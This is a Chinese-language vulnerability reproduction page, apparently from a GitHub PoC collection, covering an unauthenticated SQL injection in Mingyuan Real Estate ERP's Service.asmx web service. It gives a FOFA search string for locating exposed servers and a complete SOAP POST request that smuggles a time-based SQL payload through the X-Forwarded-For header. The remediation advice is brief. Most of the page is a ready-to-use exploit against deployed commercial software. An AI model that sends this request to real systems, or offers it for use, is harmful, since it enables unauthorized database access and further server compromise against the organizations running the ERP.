

# 明源地产ERP Service.asmx X-Forwarded-For注入漏洞复现

# 漏洞描述

明源地产ERP系统 WebService服务针对客户端IP权限校验时,未对X-Forwarded-For获取真实IP进行严格的过滤和校验，导致出现SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

# 影响版本

明源地产ERP系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/_common/scripts/md5-min.js"

POC/EXP：

POST /Kfxt/Service.asmx HTTP/1.1
Host: 127.0.0.1
Content-Type: text/xml; charset=utf-8
Content-Length: length
X-Forwarded-For: 127.0.0.1');WAITFOR DELAY '0:0:5'--
SOAPAction: "http://www.mysoft.com.cn/queryProjects"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <queryProjects xmlns="http://www.mysoft.com.cn/">
      <inpXML>&lt;xml&gt;&lt;buname&gt;abc&lt;/buname&gt;&lt;/xml&gt;</inpXML>
    </queryProjects>
  </soap:Body>
</soap:Envelope>

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
